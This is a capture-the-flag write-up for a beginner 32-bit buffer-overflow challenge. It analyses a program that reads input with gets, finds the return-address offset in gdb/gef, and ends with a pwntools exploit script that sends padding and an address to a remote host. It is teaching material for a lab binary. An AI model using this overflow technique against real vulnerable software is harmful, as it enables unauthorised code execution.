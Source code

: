 # Challenge 1
## Description
Let's start off simple, can you overflow the correct buffer?

### Two files were comrades in the challenge. (vuln.c , vuln)
### vlun.c
<img src="https://github.com/q5fj/Pwn/assets/88992167/76c5aa29-ee1d-4098-bd72-92e7207f575c">

We note that in the code the binary file will not work unless the binary file path contains a file named flag.txt
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a7f786c-8fbc-4524-832f-c38b7a61fcf3">

Also notice we have "gets" in the user input 
 
#### gets - get a string from standard input (DEPRECATED)
<img src="https://github.com/q5fj/Pwn/assets/88992167/0ae608e9-5726-4212-8449-47e2ea331cb7">

Now that have analyzed the source, let us move to the binary file:
### vuln
#### Command :-
```
$ file vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b59e5e3-38cb-4508-926f-0961f43efe8e">

The file is 32 bit, let's check the security features : 
#### Command :-
```
$ checksec vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/598555c8-43eb-48d6-a71e-04da7dcd334e">

No stack canary, assume BOF.

Let's run the file and see what happens.
#### Don't forget to create a flag.txt file for the file to work :-
```
echo "Flag{1234567890}" > flag.txt
```
and run the file:-
```
$ ./vuln
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/1c98a2ec-7e8c-41d5-ab81-c8d787f95f6b">

We also see the user input and the program exits :)

If we remember that it uses the `gets` function, which is a dangerous function that leads to a buffer overflow because it does not read user input.

Let's try to enter a byte higher than 100
```
$ python -c 'print("A" * 150)' | ./vuln
```
We notice that the program printed the contents of the flag.txt file.

<img src="https://github.com/q5fj/Pwn/assets/88992167/b67559bb-9639-4f40-998d-bc256754b291">



Now let's start examining the file closely :)

I will use gdb tool
```
gdb ./vuln -q
```
I will display the functions inside the file 
#### Command :-
```
gef➤ info functions
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/dc92ea00-d1dd-462f-9b60-d86e3432bb0e">


Let's start by analyzing the main function
#### Command :-
```
gef➤ disassemble main 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b24c7ef-295f-4493-b27e-7d0b74cd88cd">

#### So our function is main :)

Now we need the appropriate offset:-
#### Command :-
```
gef➤  pattern create 150
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a1d8ee4-6bae-467f-a5d4-850eb59e6116">

We have EIP record $eip

<img src="https://github.com/q5fj/Pwn/assets/88992167/8257bcdf-f49a-4c0b-8c2d-34813426a897">

Now let's extract offset 
#### Command :-
```
gef➤  pattern offset haaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/459b9456-3cbc-4cc0-bba9-0dafbd737a3e">

### Let's Start Exploiting 
```
import shutup; shutup.please()
from pwn import *

# elf = context.binary = ELF('./vuln')
# io = elf.process()

host =
port = 
io = remote(host, port)

offset = 25

payload = b''
payload += b'A' * offset
payload += p32(0x1353) # Address for vuln function

io.recv()
io.sendline(payload)
io.interactive()


```







